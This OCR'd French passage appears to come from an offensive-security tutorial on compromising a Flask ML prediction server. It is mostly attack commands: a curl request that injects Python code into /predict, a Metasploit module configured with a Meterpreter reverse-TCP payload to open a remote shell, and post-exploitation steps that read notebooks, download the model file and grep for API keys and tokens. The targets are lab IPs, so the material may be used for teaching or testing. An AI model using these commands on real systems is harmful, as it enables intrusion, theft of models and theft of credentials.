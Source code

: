 Résultat : port 5000 ouvert (Flask dev server)

### 2️⃣ Test d’injection directe avec curl

```bash
curl -X POST http://192.168.56.101:5000/predict -H "Content-Type: application/json" \
     -d '{"features": ["__import__('os').system('id')"]}'
```

⚠️ Flask avec `eval()` ou désérialisation non sécurisée est vulnérable.

### 3️⃣ Module Metasploit : désérialisation Python

```bash
msfconsole
search flask
use exploit/multi/http/flask_unsign_rce
set RHOSTS 192.168.56.101
set RPORT 5000
set TARGETURI /predict
set PAYLOAD python/meterpreter/reverse_tcp
set LHOST 192.168.56.1
set LPORT 4444
exploit
```

🎯 Résultat attendu : session Meterpreter sur le conteneur Flask

---

## 4. Post-exploitation typique en environnement MLOps

Une fois connecté via Meterpreter :

### 🔍 1️⃣ Lire les notebooks en clair

```bash
cd /home/ubuntu/
ls -la
cat notebooks/production_model.ipynb
```

### 📦 2️⃣ Voler les modèles

```bash
download model.pkl
```

### 🔑 3️⃣ Extraire les secrets stockés (tokens, API keys)

```bash
grep -r "key" .
grep -r "token" .
```
